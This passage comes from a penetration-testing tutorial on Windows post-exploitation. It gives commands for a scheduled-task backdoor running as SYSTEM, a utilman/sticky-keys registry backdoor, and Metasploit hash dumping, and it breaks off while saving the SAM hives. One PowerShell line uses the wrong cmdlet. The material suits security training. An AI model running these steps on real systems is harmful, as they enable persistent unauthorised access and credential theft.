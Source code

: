 New-ScheduledTaskSettingsSet - This will set our above-mentioned settings.

Register-ScheduledTask - Will create the task.

Knowing this let's create the task using Powershell.

```bash
PS > $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Administrator\Desktop\backdoor.exe"
PS > $B = New-ScheduledTaskTrigger -AtLogOn
PS > $C = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
PS > $D = New-ScheduledTaskSettingsSet
PS > $E = New-ScheduledTaskAction -Action $A -Trigger $B -Principal $C -Settings $D
PS > Register-ScheduledTask Backdoor -InputObject $E
```

Checking Task Scheduler you can see there is a task created and will run
every time a users logs in.

### Backdooring RDP

An example would be using Metasploit to backdoor OSK (On-screen keyboard).

Metasploit sticky_keys module can be used:

```bash
msf5> search sticky
>use 0
>set session 2
>set target osk
>run
```

Sign out/Lock the account and press Windows Key + U and choose On-screen keyboard.
A CMD should be prompted.

The same results can be achieved by editing the registry using the command:

```bash
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

## Hash dumping

### What is hash dumbping

Hash dumping is the technique used by penetration testers to extract the password
hashes off of the target system to either crack them or to try to do lateral movement.
The simplest way to do hash dumping is by using Metasploit's hashdump/kiwi module:

```bash
meterpreter> run post/windows/gather/hashdump
```

The same result can be achieved by saving the SAM and SYSTEM registries,
downloading the files and using samdump2.
Let's save first the registries on the target machine:
